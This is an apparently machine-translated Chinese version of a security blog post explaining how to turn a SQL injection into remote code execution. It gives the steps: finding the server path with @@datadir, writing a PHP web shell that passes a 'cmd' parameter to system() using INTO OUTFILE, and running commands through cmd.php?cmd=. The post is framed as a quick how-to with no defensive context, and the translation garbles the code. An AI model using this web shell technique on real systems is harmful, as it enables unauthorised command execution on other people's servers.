



# 从 SQL 注入跳到 RCE

> 原文：<https://infosecwriteups.com/jumping-from-sql-injection-to-rce-ea354e5d4f94?source=collection_archive---------0----------------------->

在这种情况下，我们将利用 sql 注入错误来“跳转”到其他漏洞。

为此，我们必须拥有写权限并知道服务器装载的路径，他们可以使用@ [@datadir](http://twitter.com/datadir) 来完成，在这种情况下，我在错误屏幕上显示了路径

有了路径后，我们要做的是注入外壳，在这种情况下，这是一个简单的 php 后门:

php system ($ _ GET [“cmd”]); ?>

我们将使用以下方法注入它:

INTO + OUTFILE + 'path/name.php '

他们注入和文件将被加载到服务器上，现在我们访问。

输入文件后，将出现以下内容:

警告:system () [function.system]:不能在第 1 行的 F:\ content site \ cmd.php 中执行空白命令

这是因为我们已经在使用 php system()函数，我们必须将它与一些命令一起使用

现在，最后一件事是使用 cmd 参数添加要执行的命令，该参数是我们在注入中使用的参数:($ _GET ["cmd"])

cmd.php？cmd =命令

这样你就可以以一种超快的方式从 sql 注入到 RCE。